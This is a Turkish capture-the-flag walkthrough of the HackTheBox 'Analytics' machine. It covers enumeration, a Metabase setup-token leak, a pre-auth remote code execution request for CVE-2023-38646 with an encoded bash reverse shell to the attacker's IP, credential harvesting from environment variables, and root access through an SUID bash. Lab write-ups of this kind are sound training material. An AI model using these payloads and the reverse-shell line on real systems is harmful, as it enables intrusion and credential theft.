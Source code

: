# Analytics

## User Flag

!!! info "Target IP Address"

    10.10.11.233

Keşfe başlamak için ilk olarak aşağıdaki komut ile bir Nmap taraması gerçekleştirdim:

```bash
nmap 10.10.11.233 -sC -sV
```

```text title="Output" hl_lines="6 10"
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-15 14:05 +03
Nmap scan report for 10.10.11.233
Host is up (1.1s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
5904/tcp filtered ag-swim
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 949.66 seconds
```

Tarama sonuçlarında 80 numaralı port açık olarak gözükmektedir. Bu bilgiden hareketle, siteyi bir web tarayıcısında ziyaret etmeyi düşündüm. URL kısmına IP adresini girerek siteye gittiğimde [http://analytical.htb](http://analytical.htb) isimli bir sayfaya yönlendirildim.

Bu adresi `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts
```

Ardından Gobuster aracı ile vHost numaralandırma girişiminde bulundum:

```bash
gobuster vhost --append-domain -u analytical.htb -w /opt/useful/SecLists/Discovery/Web-Content/common.txt
```

```text title="Output" hl_lines="15"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://analytical.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /opt/useful/SecLists/Discovery/Web-Content/common.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: data.analytical.htb Status: 200 [Size: 77883]
Progress: 4727 / 4727 (100.00%)
===============================================================
Finished
===============================================================
```

Burada bulunan adresi de `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.233 data.analytical.htb" | sudo tee -a /etc/hosts
```

Bu adrese gittiğimde Metabase ile ilgili bir Login sayfasıyla ([http://data.analytical.htb/auth/login](http://data.analytical.htb/auth/login)) karşılaştım:

![](../assets/images/analytics/metabase-login-page.png)

Yeni bulunan adres için Gobuster dizin numaralandırma girişiminde bulunduğumda aşağıdaki hata ile karşılaştım:

```text
Error: the server returns a status code that matches the provided options for non existing urls. http://data.analytical.htb/f08e9427-c322-4095-8b2c-4654cd7d10c5 => 200 (Length: 77894). To continue please exclude the status code or the length
```

Gobuster, geçerli olmayan bir URL ile bağlantı denemesinde bulunduğunda 200 başarı mesajı alıyor ve bu yüzden hata veriyor. Kısa bir araştırmadan sonra sunucunun bu şekilde davranacak şekilde kurulabileceğini öğrendim. Geçerli olmayan bir URL isteğinde bulunduğumuzda dahi 200 yanıtını döndürüyor.

Gobuster aracının denediği geçersiz URL adresine gidip Burp ile bu bağlantı arasına girdim. Ardından bağlantıyı birkaç kez normal şekilde Forward ettiğimde, bağlantının `api/setup/properties` dizinine uğradığını fark ettim. Kısa bir Google aramasından sonra, bu dizinde bulunan ve halka açık olarak bulunmaması gereken `setup-token` bilgisinin erişilebilir olduğunu öğrendim ([CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)).

Bu `setup-token` bilgisini aşağıdaki komut ile elde ettim:

```bash
echo $(curl -s -H "Content-Type: application/json" http://data.analytical.htb/api/session/properties | jq -r '.["setup-token"]')
```

```text title="Output"
249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```

Kullanabileceğim bir PoC için arama gerçekleştirdiğimde [bu](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) site ile karşılaştım. Bulduğum PoC kodunu kendime göre düzenledim:

```json title="PoC" hl_lines="7 20"
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 820

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

Burada Base64 ile kodlanmış olarak gözüken değer (`YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA+JjEK`) reverse shell almak için kullanılacak olan payload (`bash -i >&/dev/tcp/10.10.14.45/4444 0>&1`) kodudur.

Bu PoC kodunu kullanabilmek için ilk önce [http://data.analytical.htb/auth/login](http://data.analytical.htb/auth/login) adresine gidip bağlantıyı Burp ile yakaladım. Yakaladığım bağlantıyı Burp Repeater kısmına gönderdikten sonra Request kısmını bu PoC bilgisi ile güncelledim. Send ile göndermeden önce Netcat ile 4444 numaralı port üzerinde bir dinleyici başlattım:

```bash
nc -lvnp 4444
```

Bunun ardından Send ile gönderdiğimde Netcat dinleyici üzerinde shell elde edebildim:

```text title="Output"
listening on [any] 4444 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.11.233] 55382
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
d12f07ea59fe:/$
```

Hemen arkasından shell yükseltmesi yaparak daha sağlam bir TTY elde ettim ve böylece komut çalıştırırken alınabilecek hataları en aza indirgemiş oldum.

İçinde bulunduğum dizinde herhangi bir bayrak dosyası yoktu, bu yüzden farklı denemelerde bulundum. Nihayetinde aşağıda verdiğim kod parçası beni tekrardan doğru yola soktu:

```bash
find / -name *env 2> /dev/null
```

```text title="Output" hl_lines="3"
/bin/printenv
/usr/bin/env
/usr/lib/bash/printenv
/.dockerenv
```

Arama sonuçlarından elde ettiğim bilgilerden yola çıkarak `#!bash printenv` komutunu kullandım ve bu komut bana aşağıdaki çıktıyı sağladı:

```text title="Output" hl_lines="13 14"
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=d12f07ea59fe
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
OLDPWD=/home/metabase
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
```

Elde ettiğim kullanıcı adı ve parola bilgisi ile reverse shell dışında bir SSH bağlantısı gerçekleştirdim:

```bash
ssh metalytics@analytical.htb
```

Bağlantı kurulduktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
cat ~/user.txt
```

## Root Flag

Yanlış yapılandırılmış SUID etiketli çalıştırılabilir bir dosya olup olmadığını öğrenmek amacıyla aşağıdaki aramayı gerçekleştirdim:

```bash
find / -perm /4000 -exec ls -l {} \; 2> /dev/null
```

```text title="Output" hl_lines="1"
-rwsr-xr-x 1 root metalytics 1396520 Jan 15 14:38 /var/tmp/bash
-rwsr-xr-x 1 root root 40496 Nov 24  2022 /usr/bin/newgrp
-rwsr-xr-x 1 root root 72072 Nov 24  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 55672 Feb 21  2022 /usr/bin/su
-rwsr-xr-x 1 root root 35192 Feb 21  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 44808 Nov 24  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 35200 Mar 23  2022 /usr/bin/fusermount3
-rwsr-xr-x 1 root root 232416 Apr  3  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 59976 Nov 24  2022 /usr/bin/passwd
-rwsr-xr-x 1 root root 47480 Feb 21  2022 /usr/bin/mount
-rwsr-xr-x 1 root root 72712 Nov 24  2022 /usr/bin/chfn
-rwsr-xr-- 1 root messagebus 35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 338536 Aug 24 13:40 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
```

İlk bulunan sonuç çok umut vericiydi. Bu sebeple bu dosyayı, [GTFOBins](https://gtfobins.github.io/gtfobins/bash/#suid) sayfasında bahsedildiği şekilde çalıştırdım (privileged mode) ve bu sayede `root` kullanıcısı olabildim:

```bash
/var/tmp/bash -p
```

Yüksek yetkilere sahip shell içerisinde aşağıdaki komut ile `root` bayrağını elde edebildim:

```bash
cat /root/root.txt
```
